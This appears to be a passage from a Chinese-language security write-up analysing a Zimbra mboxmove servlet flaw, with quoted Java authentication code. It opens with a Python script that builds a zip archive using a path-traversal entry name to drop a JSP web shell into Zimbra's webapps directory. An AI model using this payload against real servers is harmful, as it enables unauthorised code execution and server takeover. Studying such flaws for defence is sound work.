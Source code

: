 ```python
import zipfile,os
zipFile = zipfile.ZipFile('./shell.zip','w')
zipFile.write('./shell.jsp','../../../../jetty/webapps/zimbra/downloads/shell.jsp',zipfile.ZIP_DEFLATED)
zipFile.close()
```

### 未授权

在 `servlet` 刚开始的时候有一个权限判断的操作

```java
AuthToken authToken = ZimbraServlet.getAuthTokenFromCookie(req, resp);
if (authToken == null || !authToken.isAdmin()) {
    Log.mboxmove.warn("Auth failed");
    this.sendError(resp, 403, "Auth failed");
}
```

跟入 `getAuthTokenFromCookie`

```java
public static AuthToken getAdminAuthTokenFromCookie(HttpServletRequest req) {
    return getAuthTokenFromHttpReq(req, true);
}

public static AuthToken getAuthTokenFromHttpReq(HttpServletRequest req, HttpServletResponse resp, boolean isAdminReq, boolean doNotSendHttpError) throws IOException {
    AuthToken authToken = null;

    try {
        authToken = getAuthToken(req, isAdminReq);
        if (authToken == null) {
            if (!doNotSendHttpError) {
                resp.sendError(401, "no authtoken cookie");
            }
            return null;
        } else if (!authToken.isExpired() && authToken.isRegistered()) {
            return authToken;
        } else {
            if (!doNotSendHttpError) {
                resp.sendError(401, "authtoken expired");
            }

            return null;
        }
    } catch (AuthTokenException var6) {
        if (!doNotSendHttpError) {
            resp.sendError(401, "unable to parse authtoken");
        }

        return null;
    }
}
```

